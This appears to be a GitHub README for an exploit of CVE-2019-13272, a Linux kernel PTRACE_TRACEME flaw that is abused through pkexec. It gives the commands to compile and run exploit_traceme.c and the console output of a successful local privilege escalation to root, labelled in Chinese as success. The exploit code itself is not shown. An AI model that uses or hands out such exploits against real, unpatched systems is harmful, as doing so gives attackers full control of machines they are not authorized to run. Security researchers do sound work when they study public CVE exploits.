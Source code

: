 # CVE-2019-13272 
> Linux Kernel 5.1.x - 'PTRACE_TRACEME' pkexec

## 使用
```shell script
ujas@kali:~$ gcc exploit_traceme.c -o exploit_traceme
ujas@kali:~$ ./exploit_traceme
    Welcome to your Arsenal!
    accessing variables...
    execution has reached EOP.
    familiar trunks are been searched ...
    trunk helper found: /usr/sbin/mate-power-backlight-helper
    helper initiated: /usr/sbin/mate-power-backlight-helper
    SUID process is being initiated (/usr/bin/pkexec) ...
    midpid is being traced...
    midpid attached.
root@kali:/home/ujas#
提权成功
```


